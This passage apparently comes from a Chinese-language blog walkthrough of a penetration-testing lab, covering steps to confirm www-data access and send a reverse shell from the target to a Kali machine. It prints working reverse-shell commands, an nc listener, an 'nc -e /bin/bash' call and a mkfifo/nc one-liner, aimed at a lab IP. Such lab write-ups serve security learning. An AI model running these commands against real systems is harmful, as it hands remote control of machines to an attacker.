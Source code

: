 
<img src="https://img-blog.csdnimg.cn/52c4e9ae51954c33b95fbdf5417cb19b.png" alt="在这里插入图片描述">

>  
 执行whaomi查询我权限，是www-data权限 


<img src="https://img-blog.csdnimg.cn/3fc5de46c7af4da4a9875586cf3f7554.png" alt="在这里插入图片描述">

### 13.反弹shell到kali

>  
 蚁剑看到的终端不如kali清晰，反弹一个shell到kali 


#### 1.kali监听

>  
 nc -lvvp 55555 


<img src="https://img-blog.csdnimg.cn/24926ba9ed9e4fc6b1d117105fcaddd5.png" alt="在这里插入图片描述">

#### 2.靶机连接

```
nc -e /bin/bash 192.168.233.130 55555

```

>  
 发现-e参数不可用 


<img src="https://img-blog.csdnimg.cn/21bceb44e6ac4446af50a5b4d9c4815b.png" alt="在这里插入图片描述">

>  
 使用如下目录连接 


```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2&gt;&amp;1|nc 192.168.233.130 55555 &gt;/tmp/f

```

<img src="https://img-blog.csdnimg.cn/9dd1c23019ae40dd8e4fd2e8b946b4ca.png" alt="在这里插入图片描述">

#### 3.shell成功反弹

<img src="https://img-blog.csdnimg.cn/423e27cd77e2498f859c2d8191b22792.png" alt="在这里插入图片描述">

### 14.创建交互式shell

>  
 经常用shell的小伙伴都知道这个shell不好用，我们建立一个交互式shell 常用的就是python创建交互式shell 

